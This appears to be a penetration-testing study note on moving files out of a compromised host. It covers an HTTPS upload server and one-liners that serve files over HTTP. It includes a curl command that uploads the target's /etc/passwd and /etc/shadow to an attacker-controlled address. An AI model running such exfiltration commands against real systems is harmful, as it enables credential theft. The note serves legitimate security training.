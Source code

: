 ## Upload Operations
- **Purpose**: Exfiltrate files (e.g., for binary exploitation or packet analysis).
- **Methods**: Reuse download techniques for uploads.

### Web Upload
- **Tool**: `uploadserver` (Python module) with HTTPS support.
- **Setup**:
  - Install:
    ```bash
    sudo python3 -m pip install --user uploadserver
    ```
  - Create self-signed certificate:
    ```bash
    openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048
    ```
  - Start server:
    ```bash
    mkdir https && cd https
    sudo python3 -m uploadserver 443 --server-certificate /server.pem
    ```
- **Upload from target**:
  ```bash
  curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
  ```
- **Note**: `--insecure` used for self-signed certificate.

### Alternative Web File Transfer
- **Concept**: Use Python, PHP, or Ruby to host a web server on the target for file access.
- **Commands**:
  - Python3:
    ```bash
    python3 -m http.server
    # Serves on 0.0.0.0:8000
    ```
  - Python2.7:
    ```bash
    python2.7 -m SimpleHTTPServer
    ```
  - PHP:
    ```bash
    php -S 0.0.0.0:8000
    ```
  - Ruby:
    ```bash
    ruby -run -ehttpd . -p8000
    ```
- **Download from Pwnbox**:
  ```bash
  wget 192.168.49.128:8000/filetotransfer.txt
  ```
- **Note**: Inbound traffic may be blocked; this method downloads from target to Pwnbox, not uploads.
